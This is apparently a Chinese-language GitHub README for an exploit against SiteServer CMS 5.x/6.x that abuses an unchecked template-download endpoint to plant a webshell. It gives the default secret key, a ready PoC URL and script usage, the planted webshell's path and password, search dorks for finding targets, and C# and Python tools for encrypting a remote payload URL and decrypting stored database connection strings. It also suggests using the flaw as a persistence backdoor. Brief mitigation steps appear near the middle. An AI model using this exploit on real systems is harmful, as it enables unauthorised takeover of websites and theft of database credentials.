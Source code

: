 ## SiteServer-CMS-Remote-download-Getshell-vulnerability

SiteServer CMS 远程模板下载Getshell漏洞
![test](img/test.png)

漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀.先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。

且SecretKey在5.0是默认值
> vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5


### Affected Version

SiteServerCMS 6.x（需要且SecretKey.Tips:查看web.config获取SecretKey，因为6.x的密钥是随机生成的，这里可以用作维持权限后门使用，即通过其他手段进去了，但管理员根据日志找到你进去的漏洞，修复后，可以再次通过此漏洞获取Webshell.或者你有其他办法能把SecretKey的值读取出来也可以组合使用.突然间关注这漏洞的人多了,这行属于另外再添加的.2020/02/26.）

SiteServerCMS 5.x

SiteServerCMS 4.x(测试没通过)

### PoC

> http://localhost/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0&directoryName=sectest


```
python2 poc.py -u http://localhost
```
![out](img/out.png)
```
python2 poc.py -f url.txt
```

Ps:注意最后面没/

WebShell:http://localhost/SiteFiles/SiteTemplates/sectest/include.aspx

PassWord:admin



### 搜索引擎关键字:

inurl:/sitefiles/services

inurl:/siteserver/login.aspx

### 临时修复方案
修改 

> 1.修改C:/WebSite/SiteFiles/Configuration/Configuration.config文件里secretKey的值

> 2.然后修改根目录web.config下的DatabaseType/ConnectionString值都是通过下面的加密工具进行加密的字符串.

> 3.更改后台地址

> 4.更改(或移除模板下载功能)/SiteServer/Ajax/ajaxOtherService.aspx路径

### downloadUrl加密工具
#### C#

<CODE>dotnet new console -o test</CODE>

<CODE>dotnet run</CODE>
生成目录后的Program.cs替换以下代码

1.然后修改_inputString的值(你指定的下载地址)
```C#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/webshell/poxteam.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
```

![result](img/result.png)
2.把出来的结果丢这里

Python

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw=="
str_decry = str_decry.replace("+", "0add0").replace("=", "0equals0").replace("&", "0and0").replace("?", "0question0").replace("/", "0slash0")

print str_decry
```


![resutl2](img/result2.png)
得出转义后的下载链接，修改Poc.py 

<code>/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=这里&directoryName=sectest</code>

### downloadUrl解密工具

(也可以用来解web.config的数据库链接信息,密钥不变的情况下,如果密钥变了找SiteFiles/Configuration/Configuration.config的secretKey的值)

1.先用python的还原

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0"
str_decry = str_decry.replace("0add0", "+").replace("0equals0", "=").replace("0and0", "&").replace("0question0", "?").replace("0slash0", "/")

print str_decry

```

![python1](img/python1.png)
2.再用c#以下的代码还原回默认下载链接

```c#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw==";
        var _outString = ""; 
        var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try
        { 
          var byKey = Encoding.UTF8.GetBytes(_decryptKey.Substring(0, 8)); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Convert.FromBase64String(_inputString);
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateDecryptor(byKey, iv), CryptoStreamMode.Write);
              cs.Write(inputByteArray, 0, inputByteArray.Length);
              cs.FlushFinalBlock();
          Encoding encoding = new UTF8Encoding();
          _outString = encoding.GetString(ms.ToArray());
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
 
```

![c#](img/c%23.png)